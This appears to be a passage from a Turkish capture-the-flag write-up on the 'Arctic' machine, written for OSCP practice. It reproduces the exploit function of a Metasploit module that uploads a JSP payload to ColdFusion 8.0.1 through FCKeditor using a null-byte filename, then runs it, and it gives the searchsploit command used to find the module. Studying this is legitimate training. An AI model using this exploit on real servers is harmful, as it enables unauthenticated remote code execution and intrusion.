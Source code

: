 ![Pasted image 20250209192506.png](/img/user/Pasted%20image%2020250209192506.png)


### Path 1: Unauthenticated RCE

#### Exploit Analysis

Arctic üzerinde RCE'ye giden en doğrudan yol Execution güvenlik açığıdır:

```
ColdFusion 8.0.1 - Arbitrary File Upload / Execution (Metasploit) | cfm/webapps/16788.rb
```

Özellikle **OSCP pratiği** için, bir **Metasploit script'ini** okuyup anlamak kritik bir beceridir.

Bu yüzden, **searchsploit -x cfm/webapps/16788.rb** komutuyla script'i açacağım.

En ilginç kısım ise **exploit** fonksiyonu:

```
def exploit

    page  = rand_text_alpha_upper(rand(10) + 1) + ".jsp"

    dbl = Rex::MIME::Message.new
    dbl.add_part(payload.encoded, "application/x-java-archive", nil, "form-data; name=\"newfile\"; filename=\"#{rand_text_alpha_upper(8)}.txt\"")
    file = dbl.to_s
    file.strip!

    print_status("Sending our POST request...")

    res = send_request_cgi(
        {
            'uri'           => "#{datastore['FCKEDITOR_DIR']}",
            'query'         => "Command=FileUpload&Type=File&CurrentFolder=/#{page}%00",
            'version'       => '1.1',
            'method'        => 'POST',
            'ctype'         => 'multipart/form-data; boundary=' + dbl.bound,
            'data'          => file,
            }, 5)

    if ( res and res.code == 200 and res.body =~ /OnUploadCompleted/ )
        print_status("Upload succeeded! Executing payload...")

        send_request_raw(
            {
                # default path in Adobe ColdFusion 8.0.1.
                'uri'           => '/userfiles/file/' + page,
                'method'        => 'GET',
                }, 5)

        handler
    else
        print_error("Upload Failed...")
        return
    end

end
```
